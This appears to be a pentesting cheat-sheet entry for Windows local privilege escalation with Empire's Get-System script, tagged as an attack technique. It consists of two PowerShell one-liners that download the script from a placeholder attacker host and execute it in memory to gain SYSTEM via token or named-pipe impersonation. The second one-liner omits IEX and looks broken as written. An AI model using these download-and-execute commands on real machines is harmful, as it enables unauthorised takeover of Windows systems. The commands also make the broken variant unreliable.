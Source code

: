 # Get-System.

% SeAssignPrimaryToken, token, named pipe impersonation
#plateform/windows #target/local #cat/PRIVESC


## onliner (token)
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/empire/privesc/Get-System.ps1') | IEX; Get-System -Technique Token
```

## online (named pipe)
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/empire/privesc/Get-System.ps1') | Get-System -ServiceName '<service_name>' -PipeName '<pipe_name>'
```